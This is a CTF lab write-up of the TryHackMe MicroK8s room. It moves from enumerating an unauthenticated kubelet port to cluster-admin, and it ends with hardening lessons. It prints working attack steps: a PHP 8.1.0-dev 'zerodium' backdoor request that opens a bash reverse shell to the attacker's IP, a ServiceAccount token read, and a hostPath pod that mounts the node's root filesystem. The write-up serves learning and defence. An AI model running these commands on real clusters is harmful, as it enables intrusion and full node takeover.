






# MicroK8s: From a Read-Only Kubelet to Cluster-Admin

> So Frank and Herb have become Kubernetes experts now and would never misconfigure their own deployment (again)!



[Frank and Herby try again.....](https://tryhackme.com/room/frankandherbytryagain) is a MicroK8s hacking room, there are no guided questions this round, just two flags to collect: user and root.

Used techniques: Nmap service enumeration, Kubernetes read-only kubelet enumeration, PHP 8.1.0-dev backdoor RCE, ServiceAccount token abuse, RBAC enumeration, cluster-admin pod deployment with a hostPath mount.

OWASP Kubernetes Top Ten (2025): [K02 Overly Permissive Authorization Configurations](https://owasp.org/www-project-kubernetes-top-ten/), [K01 Insecure Workload Configurations](https://owasp.org/www-project-kubernetes-top-ten/), [K06 Overly Exposed Kubernetes Components](https://owasp.org/www-project-kubernetes-top-ten/).

OWASP Top 10:2025: [A03 Software Supply Chain Failures](https://top10.owasp.org/2025/A03_2025-Software_Supply_Chain_Failures/) (a deliberately backdoored PHP build).

---

## Scanning

A SYN scan across all ports first. `-sS` needs root but is quick, since it never completes the handshake, `-T4` keeps it fast without `-T5`'s accuracy loss, and `-p-` covers all 65535 ports because Kubernetes lives on high ones:

```
# nmap -sS -p- -T4 10.114.153.146
PORT      STATE    SERVICE
22/tcp    open     ssh
10250/tcp open     unknown
10255/tcp open     unknown
10257/tcp open     unknown
10259/tcp open     unknown
16443/tcp open     unknown
25000/tcp open     icl-twobase1
30679/tcp filtered unknown
```

Then version and script detection on just those ports:

```
# nmap -sV -sC -p 22,10250,10255,10257,10259,16443,25000,30679 10.114.153.146
22/tcp    open  ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
10250/tcp open  ssl/http  Golang net/http server
|  ssl-cert: Subject: commonName=microk8s@1647797913
10255/tcp open  http      Golang net/http server
16443/tcp open  ssl/http  kube-apiserver (401 Unauthorized)
|  ssl-cert: Subject: commonName=127.0.0.1/organizationName=Canonical/countryName=GB
|  Subject Alternative Name: DNS:kubernetes.default.svc.cluster.local, ...
25000/tcp open  ssl/http  Gunicorn 19.7.1
```

The certificates give it away: `commonName=microk8s` and `organizationName=Canonical` mean this is a MicroK8s cluster. Port by port:

- 22 / SSH (OpenSSH 8.2p1): set aside for now.
- 16443 / kube-apiserver: MicroK8s runs it here instead of 6443. It returns 401 to anonymous, so it wants real credentials. This is the eventual goal.
- 10250 / kubelet API (HTTPS): the powerful one, but authenticated.
- 10255 / kubelet read-only port (plain HTTP, no auth): the standout.
- 10257 / kube-controller-manager and 10259 / kube-scheduler: both 403 to anonymous.
- 25000 / MicroK8s cluster-agent.
- 30679 / filtered.

Ports 10250 and 10255 both belong to the kubelet, the agent on each node that starts, stops and watches containers. The difference is the point: 10255 is read-only, plain HTTP, no auth. 10250 is authenticated but far more powerful, including running commands inside containers straight through the kubelet.

## Foothold: the read-only kubelet

I checked 10250 for anonymous access first. curl choked on the self-signed cert, so I added `--insecure` to skip verification (fine for a CTF, but it disables the check that stops a man-in-the-middle, so not something to reach for in anger):

```
# curl --insecure https://10.114.153.146:10250/pods
Unauthorized
```

No luck on the authenticated port. The read-only port was friendlier, and read-only does not mean harmless:

```
# curl -s http://10.114.153.146:10255/pods > pods.json
```

That returns the full PodList for the cluster, no credentials required. Reading through it, one pod stood out:

```
"namespace": "frankland"  "image": "vulhub/php:8.1-backdoor"
"containerPort": 80
"volumes": [{"name":"frank","hostPath":{"path":"/home/herby/app","type":"Directory"}}]
"volumeMounts": [{"name":"frank","mountPath":"/var/www/html"}]
```

Two gifts in one spec. The image name says `backdoor`, and the container's web root `/var/www/html` is a hostPath mount of `/home/herby/app` on the node. A hostPath mount is a window out of the container: anything in the web root is really a file in user `herby`'s home directory on the host.

The pod listens on container port 80, but where is that on the node? Back to the nmap results and the filtered 30679, which is in the NodePort range (30000 to 32767). A NodePort publishes a pod on a port of the node itself, so `http://10.114.153.146:30679/` hits the host, and kube-proxy quietly forwards it to the pod. You never address the pod directly, you hit the node and let it do the routing.

That URL served Frank's site:



The `X-Powered-By` header confirmed the PHP version:



## RCE: the PHP 8.1.0-dev backdoor

The image isn't vulnerable by accident, it's backdoored on purpose. `vulhub/php:8.1-backdoor` reproduces the supply-chain incident, when someone pushed two malicious commits to the official php-src git, disguised as small typo fixes and signed with core developers' names. 

The trigger is a header called `User-Agentt` (two t's) whose value starts with `zerodium`. Whatever follows is passed to PHP's `eval`, so the request body is arbitrary code:

```
User-Agentt: zerodium;system("<command>");
```

From there it's a short hop to a reverse shell. Consider a normal shell, a command-line interface that enables running operating system commands. Here I'm reversing that process, attacker machine acts as a server and waits for upcoming connections, and target machine acts like a client that initiates connection. 

Listener on my box:

```
# nc -lvnp 4444
```

`-l` listen mode, waits for connection instead making an outbound one
`-v` verbose, used to see when the connection landed
`-n` numeric, doesn't try to reverse-resolve the incoming IP to a hostname
`-p 4444` local port to listen on and it's value 

And the request that calls home:

```
# curl http://10.114.153.146:30679/ -H 'User-Agentt: zerodium;system("bash -c \"bash -i >& /dev/tcp/10.114.116.35/4444 0>&1\"");'
```

```
bash -i >& /dev/tcp/10.114.116.35/4444 0>&1
```

This part opens an interactive shell and redirects the IO streams to a TCP socket. I've also specified my attacker machine and port that is listening for the connection. 



The shell lands as root in the container, in the mounted web root. The files there (`index.php`, a FRANK RULEZZ page insisting "I CONTROL the KUBE, I don't CUDDLE it", and an `info.php` with `phpinfo()`) held nothing useful.

## Container to ServiceAccount token

Root in the container is not root on the node. I checked what this container could actually do:

```
# id
uid=0(root) gid=0(root) groups=0(root)
# grep Cap /proc/self/status
CapEff: 00000000a80425fb
# ls -la /dev | grep -E "sd|xvd|nvme|vd"
(nothing)
```

`CapEff: 00000000a80425fb` is the default container capability set, and it does not include `CAP_SYS_ADMIN`, which `mount` needs. There are no host block devices under `/dev` either. So even though the hostPath mount exposes herby's home, I can't just mount the whole host disk from in here. The container is root but unprivileged, which is the common and correct default.

The way forward in Kubernetes isn't a container breakout, it's the credential every pod is handed. The ServiceAccount token sits at a fixed path:

```
# cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

## The real prize: cluster-admin

With that token, I asked the API server what it would let me do:

```
# export TOKEN="eyJ[REDACTED]"
# kubectl --token="$TOKEN" --server=https://10.114.153.146:16443 --insecure-skip-tls-verify auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
```

`*.*` with verb `[*]` is every resource, every verb, cluster-wide. The `frankland:default` ServiceAccount is bound to full cluster-admin. That is the misconfiguration the whole room turns on: no breakout tricks needed, the token alone is the cluster. I can read every secret, create privileged pods, mount the host, anything.

This is why the read-only kubelet mattered so much. On its own it just leaks pod metadata, but that metadata pointed me at a backdoored pod whose token happened to be too powerful. Each weak link was survivable, the chain was not.

## Both flags via a host-mounting pod

The secrets held nothing interesting, so I used the access directly: deploy a pod that mounts the node's entire filesystem and pin it to the target node.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pwn
  namespace: frankland
spec:
  containers:
  - name: pwn
    image: vulhub/php:8.1-backdoor
    command: ["/bin/sh","-c","sleep 3600"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
  nodeName: ip-10-114-153-146
```

```
# kubectl --token="$TOKEN" --server=https://10.114.153.146:16443 --insecure-skip-tls-verify apply -f pwn.yaml
pod/pwn created
# kubectl --token="$TOKEN" --server=https://10.114.153.146:16443 --insecure-skip-tls-verify exec -it pwn -n frankland -- /bin/sh
# ls -la /host/home/herby/
...
-rw-rw-r-- 1 1000 1000   25 Mar 21  2022 user.txt
```

With `/` mounted at `/host`, both flags were one `cat` away: the user flag in herby's home, and the root flag in `/root`.





## Lessons learned

- The read-only kubelet port is a free map of the cluster. 10255 serves pod specs to anyone with no auth, and it's deprecated for exactly this reason. Disable it (`--read-only-port=0`), and don't expose the authenticated kubelet on 10250 to untrusted networks either.
- A hostPath mount is a node-compromise primitive. The moment a pod mounts a host path, container isolation is porous, and mounting `/` is game over. Restrict hostPath with a policy, the right to create one should be guarded as closely as root on the nod.
- The default ServiceAccount should not be cluster-admin. This one binding turned a web RCE into full cluster control. Scope RBAC to least privilege, and set `automountServiceAccountToken: false` on workloads that don't call the API.
- Don't run untrusted images. The pod was running a knowingly backdoored PHP build. In production that's a supply-chain failure: pin and verify images, and pull only from sources you trust.
